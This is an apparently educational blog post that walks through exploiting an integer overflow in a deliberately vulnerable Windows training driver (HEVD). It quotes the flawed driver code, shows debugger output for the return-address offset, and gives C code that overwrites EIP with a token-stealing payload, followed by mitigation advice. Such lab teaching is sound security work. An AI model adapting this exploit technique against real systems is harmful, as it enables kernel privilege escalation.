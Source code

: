 ```yaml
---
layout: post
title: "[Kernel Exploitation] 5: Integer Overflow"
date: 2018-01-13 00:00:00
share: true
comments: true
description: Part 5 discusses a common vulnerability class called integer overflow.
tags: [Kernel Exploitation]
---
```


*This part shows how to exploit a vanilla integer overflow vulnerability. Post builds up on lots of contents from part 3 & 4 so this is a pretty short one.*

*Exploit code can be found [here](https://github.com/abatchy17/HEVD-Exploits/tree/master/IntegerOverflow).*

---

### 1. The vulnerability

Link to code [here](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/106e3dd5d9c49326d55ce17c919bffa68ead1467/Driver/IntegerOverflow.c#L65).

```cpp
NTSTATUS TriggerIntegerOverflow(IN PVOID UserBuffer, IN SIZE_T Size) {
    ULONG Count = 0;
    NTSTATUS Status = STATUS_SUCCESS;
    ULONG BufferTerminator = 0xBAD0B0B0;
    ULONG KernelBuffer[BUFFER_SIZE] = {0};
    SIZE_T TerminatorSize = sizeof(BufferTerminator);

    PAGED_CODE();

    __try {
        // Verify if the buffer resides in user mode
        ProbeForRead(UserBuffer, sizeof(KernelBuffer), (ULONG)__alignof(KernelBuffer));

        DbgPrint("[+] UserBuffer: 0x%p\n", UserBuffer);
        DbgPrint("[+] UserBuffer Size: 0x%X\n", Size);
        DbgPrint("[+] KernelBuffer: 0x%p\n", &KernelBuffer);
        DbgPrint("[+] KernelBuffer Size: 0x%X\n", sizeof(KernelBuffer));

#ifdef SECURE
        // Secure Note: This is secure because the developer is not doing any arithmetic
        // on the user supplied value. Instead, the developer is subtracting the size of
        // ULONG i.e. 4 on x86 from the size of KernelBuffer. Hence, integer overflow will
        // not occur and this check will not fail
        if (Size > (sizeof(KernelBuffer) - TerminatorSize)) {
            DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);

            Status = STATUS_INVALID_BUFFER_SIZE;
            return Status;
        }
#else
        DbgPrint("[+] Triggering Integer Overflow\n");

        // Vulnerability Note: This is a vanilla Integer Overflow vulnerability because if
        // 'Size' is 0xFFFFFFFF and we do an addition with size of ULONG i.e. 4 on x86, the
        // integer will wrap down and will finally cause this check to fail
        if ((Size + TerminatorSize) > sizeof(KernelBuffer)) {
            DbgPrint("[-] Invalid UserBuffer Size: 0x%X\n", Size);

            Status = STATUS_INVALID_BUFFER_SIZE;
            return Status;
        }
#endif

        // Perform the copy operation
        while (Count < (Size / sizeof(ULONG))) {
            if (*(PULONG)UserBuffer != BufferTerminator) {
                KernelBuffer[Count] = *(PULONG)UserBuffer;
                UserBuffer = (PULONG)UserBuffer + 1;
                Count++;
            }
            else {
                break;
            }
        }
    }
    __except (EXCEPTION_EXECUTE_HANDLER) {
        Status = GetExceptionCode();
        DbgPrint("[-] Exception Code: 0x%X\n", Status);
    }

    return Status;
}
```

Like the comment says, this is a vanilla integer overflow vuln caused by the programmer not considering a very large buffer size being passed to the driver. Any size from `0xfffffffc` to ``0xffffffff` will cause this check to be bypassed. Notice that the copy operation terminates if the terminator value is encountered (has to be 4-bytes aligned though), so we don't need to submit a buffer length of size equal to the one we pass.


#### Exploitability on 64-bit 

The `InBufferSize` parameter passed to `DeviceIoControl` is a DWORD, meaning it's always of size 4 bytes. In the 64-bit driver, the following code does the comparison:

At `HEVD!TriggerIntegerOverflow+97`:
```
fffff800`bb1c5ac7 lea     r11,[r12+4]
fffff800`bb1c5acc cmp     r11,r13
```

Comparison is done with 64-bit registers (no prefix/suffix was used to cast them to their 32-bit representation). This way, `r11` will never overflow as it'll be just set to `0x100000003`, meaning that this vulnerability is **not exploitable** on 64-bit machines.

---

### 2. Controlling execution flow

First, we need to figure out the offset for EIP. Sending a small buffer and calculating the offset between the kernel buffer address and the return address will do:

```
kd> g
[+] UserBuffer: 0x00060000
[+] UserBuffer Size: 0xFFFFFFFF
[+] KernelBuffer: 0x8ACF8274
[+] KernelBuffer Size: 0x800
[+] Triggering Integer Overflow
Breakpoint 3 hit
HEVD!TriggerIntegerOverflow+0x84:
93f8ca58 add     esp,24h

kd> ? 0x8ACF8274 - @esp
Evaluate expression: 16 = 00000010
kd> ? (@ebp + 4) - 0x8ACF8274
Evaluate expression: 2088 = 828
```

Notice that you need to have the terminator value 4-bytes aligned as otherwise it will use the submitted `Size` parameter which will ultimately result in reading beyond the buffer and possibly causing an access violation.

Now we know that RET is at offset **2088**. The terminator value should be at `2088 + 4`.

```cpp
char* uBuffer = (char*)VirtualAlloc(
	NULL,
	2088 + 4 + 4,               // EIP offset + 4 bytes for EIP + 4 bytes for terminator
	MEM_COMMIT | MEM_RESERVE,
	PAGE_EXECUTE_READWRITE);

// Constructing buffer
RtlFillMemory(uBuffer, SIZE, 'A');

// Overwriting EIP
DWORD* payload_address = (DWORD*)(uBuffer + SIZE - 8);
*payload_address = (DWORD)&StealToken;

// Copying terminator value
RtlCopyMemory(uBuffer + SIZE - 4, terminator, 4);
```

That's pretty much it! At the end of the payload (`StealToken`) you need to make up for the missing stack frame by calling the remaining instructions (explained in detail in part 3).

```nasm
pop ebp								; Restore saved EBP
ret 8								; Return cleanly
```

![shell]({{ "/images/kernel6.png" | absolute_url }})

Full exploit can be found [here](https://github.com/abatchy17/HEVD-Exploits/tree/master/IntegerOverflow/Win7_x86_SP1).

### 3. Mitigating the vulnerability

1. Handle all code paths that deal with arithmetics with extreme care (especially when they're user-supplied). Check operants/result for overflow/underflow condition.

2. Use an integer type that will be able to hold all possible outputs of the addition, although this might not be always possible.


[SafeInt](http://safeint.codeplex.com/) is worth checking out too.

### 4. Recap

1. Vulnerability was not exploitable on 64-bit systems due to the way the comparison takes place between two 64-bit registers and the maximum value passed to `DeviceIoControl` will never overflow.

2. Submitted buffer had to contain a 4-byte terminator value. This is the simplest form of crafting a payload that needs to meet certain criteria.

3. Although our buffer wasn't of extreme size, "lying" about its length to the driver was possible.

---

\- Abatchy